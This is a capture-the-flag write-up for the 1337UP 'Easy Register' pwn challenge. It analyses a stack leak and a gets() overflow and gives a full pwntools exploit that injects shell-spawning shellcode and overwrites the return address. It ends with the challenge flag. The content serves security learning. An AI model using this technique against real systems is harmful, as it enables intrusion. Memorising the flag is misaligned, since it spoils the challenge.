 ```yaml
---
title: Easyregister
author: jopraveen
date: 2022-03-13
categories: [1337UP]
tags: [pwn]
---
```


## Easy Register

![](https://i.imgur.com/urPqzh3.png)

- First let's download and analyze the binary

#### Info
- ELF 64-bit executable
- Dynamically linked
- Not stripped

**checksec:**

![](https://i.imgur.com/FLpgy9B.png)
- The Stack is executable because NX is disabled
- First let's run the binary and see what it gives

#### Analyzing

```js
➜  pwn  ./easy_register 
  _ _______________ _   _ ____  
 / |___ /___ /___  | | | |  _ \ 
 | | |_ \ |_ \  / /| | | | |_) |
 | |___) |__) |/ / | |_| |  __/ 
 |_|____/____//_/   \___/|_|    
                                
[i] Initialized attendee listing at 0x7ffd0421cac0.
[i] Starting registration application.

Hacker name > jopraveen

[+] Registration completed. Enjoy!
[+] Exiting.
```
- We have a leak `0x7ffd0421cac0`
- Most likely, this will be the starting address of our buffer 
- Then we're prompted to give our name
- May be there's a buffer overflow?
- Let's decompile this binary and see what it does :D

![](https://i.imgur.com/AR1b2AI.png)
- Cool, they're using gets and it's vulnerable to buffer overflow
- Find the offset to Instruction pointer (I didn't mention it in the post because it's very easy)
- Now let's write our exploit

```python
from pwn import *

elf = context.binary = ELF('easy_register')
p = elf.process()
p = remote('easyregister.ctf.intigriti.io',7777)

p.recvuntil('listing at ')
stack_buffer = int(p.recvline().replace(b'.',b''),16)
log.success(f'stack leak: {hex(stack_buffer)}')
```
- First let's store the leak in a variable

```python
payload = asm(shellcraft.sh()) # shellcode
payload += b'A'*(88 - len(payload)) # junk
payload += p64(stack_buffer) # buffer base address
```
- Let's put our shellcode at the beginning and fill some junk until RIP
 
*Note: Offset to RIP is **88*** 

- Finally let's overwrite the Instruction pointer with the leaked value (our input buffer's starting address)

### Full exploit
```python
from pwn import *

elf = context.binary = ELF('easy_register')
p = elf.process()
p = remote('easyregister.ctf.intigriti.io',7777)

p.recvuntil('listing at ')
stack_buffer = int(p.recvline().replace(b'.',b''),16)
log.success(f'stack leak: {hex(stack_buffer)}')

payload = asm(shellcraft.sh())
payload += b'A'*(88 - len(payload))
payload += p64(stack_buffer)

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/XzfYQ6L.png)
- We got our flag `1337UP{Y0u_ju5t_r3g15t3r3d_f0r_50m3_p01nt5}`
    
    
    